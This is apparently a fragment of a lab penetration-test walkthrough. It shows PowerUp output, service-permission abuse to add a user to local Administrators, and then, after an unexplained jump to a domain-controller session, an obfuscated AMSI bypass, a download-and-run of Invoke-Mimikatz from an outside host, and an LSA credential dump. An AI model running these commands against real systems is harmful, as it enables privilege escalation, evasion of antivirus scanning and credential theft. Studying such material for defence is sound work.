 ```sh
PS C:\Users\devmanager> cd .\Desktop
PS C:\Users\devmanager\Desktop> ls

    Directory: C:\Users\devmanager\Desktop

Mode         LastWriteTime         Length Name
----         -------------         ------ ----
-a----       6/23/2024   7:45 AM    562841 PowerUp.ps1

PS C:\Users\devmanager\Desktop> . .\PowerUp.ps1
PS C:\Users\devmanager\Desktop> Invoke-AllChecks

[*] Running Invoke-AllChecks

[*] Checking if user is in a local group with administrative privileges...

[*] Checking for unquoted service paths...

[*] Checking service executable and argument permissions...

[*] Checking service permissions...

ServiceName    : Browser
Path           : C:\Windows\System32\svchost.exe -k smbsvcs
StartName      : LocalSystem
AbuseFunction  : Invoke-ServiceAbuse -Name 'Browser'
CanRestart     : True

[*] Checking %PATH% for potentially hijackable DLL locations...

ModifiablePath    : C:\Users\devmanager\AppData\Local\Microsoft\WindowsApps
IdentityReference : NEBULA\devmanager
Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
%PATH%            : C:\Users\devmanager\AppData\Local\Microsoft\WindowsApps
AbuseFunction     : Write-HijackDll -DllPath 'C:\Users\devmanager\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'

[*] Checking for AlwaysInstallElevated registry key...
```

looks like `Browser` service permissions can be exploited. this would allow me to modify the `binPath`, or the path to the service allowing the `Browser` service to point to an `exe` of my choosing.

```sh
Invoke-serviceabuse -servicename browser -username nebula\devmanager /add
```

i then verified my privileges.

```sh
net localgroup Administrators
```



[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> whoami
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> hostname
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents>
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('b'+'lE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]("{1}{0}"-F'F','rE') ) ; ( GeT-VariaBle ("1Q2U"+"zX") -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> iex (iwr http://172.16.10.1/invoke-mimikatz.ps1 -usebasicparsing)
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> Invoke-Mimikatz -Command '"lsadump::lsa /patch"'